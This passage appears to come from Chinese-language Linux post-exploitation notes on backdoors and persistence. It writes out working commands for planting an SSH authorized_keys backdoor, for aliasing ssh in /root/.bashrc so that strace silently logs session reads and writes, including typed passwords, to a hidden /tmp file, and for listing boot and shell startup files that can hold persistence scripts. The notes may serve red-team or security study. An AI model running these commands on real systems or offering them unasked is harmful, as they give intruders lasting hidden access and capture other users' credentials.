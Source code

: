 流程

```shell
ssh-keygen -t rsa # 生成密钥对
cat id_rsa.pub > authorized_keys #将公钥内容放到目标.ssh/authorized_keys里 

ssh-copy-id host@ip -p 22 #将公钥上传至远程服务器用户目录中
```





## strace后门

通过**命令替换（命令行启动文件加入alias）**动态跟踪系统调用和数据，可以用来记录用户ssh、su、sudo的操作。

```shell
# 监控ssh
echo "alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'" >> /root/.bashrc
# 立即生效
source /root/.bashrc
```

kali没有strace，但是云服务器默认是装了的

![image-20230830223830491](../images/image-20230830223830491.png)

查看记录的ssh连接

```shell
cat /tmp/.ssh.log 
```

![image-20230830232440346](../images/image-20230830232440346.png)

## 自启动文件后门

写入自启动文件中

- 开机启动项

  ```bash
  /etc/init.d/
  /etc/profile.d/
  /etc/rc.d/xxx # 在xxx中添加需要开机执行的脚本的绝对路径
  ```

- bash shell启动项

  ```bash
  /etc/profile 
  $HOME/.bash_profile
  $HOME/.bashrc 
  $HOME/.bash_login 
  $HOME/.profile 
  ```

  